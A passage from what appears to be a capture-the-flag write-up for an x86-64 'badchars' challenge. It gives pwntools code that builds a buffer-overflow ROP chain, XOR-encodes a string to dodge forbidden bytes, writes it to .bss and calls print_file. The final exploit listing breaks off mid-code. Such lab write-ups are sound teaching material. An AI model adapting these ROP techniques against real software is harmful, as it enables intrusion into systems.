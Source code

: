### Calling `print_file`

Following function pops `RDI` from stack, which allows us to write anything to that register. In our case we want to pass pointer to our string (pass address to string), because in `RDI` is stored first argument of function (look at `x86-64` calling convention).

```python
def call_print_file():
        return b''.join([
                p64(gadgets["pop_rdi"]),
                p64(gadgets["bss_addr"]),
                p64(gadgets["print_file"])
        ])
```

### Creating final ROP chain

This functions, takes all previous function and connects them into one chain.

> If you are not Ubuntu user please delete `ubuntu_gadget`

```python
def create_rop_chain(offset, data, key=2):
        return b''.join([
                overflow(offset),
                write_to_bss(data),
                inverse_xor(xor(data,key)[1]),
                p64(gadgets["ubuntu_gadget"]), # add if your machine is ubuntu
                call_print_file()
        ])
```


## Final Exploit

```python
from pwn import *

badchars = ["x","g","a","."]
gadgets = {'ubuntu_gadget':0x04004ee, 'bss_addr':0x0601038, 'pop_r12-r15':0x040069c,'mov_gadget':0x0400634, 'xor_gadget': 0x0400628, 'print_file':0x0400510, 'pop_rdi':0x04006a3}

def overflow(offset):
        return b"A"*offset

"""
pop r12, ...,r15 from stack
write xored data to r12
write virtual bss address to r13
garbage for r14
garbage for r15
copy value from r12 to bss
"""
def write_to_bss(data, xor_key=2):
        return b''.join([
                p64(gadgets["pop_r12-r15"]),
                xor(data,xor_key)[0],
                p64(gadgets["bss_addr"]),
                p64(0xdeadbeefdeadbeef),
                p64(0xdeadbeefdeadbeef),
                p64(gadgets["mov_gadget"]),
        ])


"""
pop r12,...,r15 from stack
```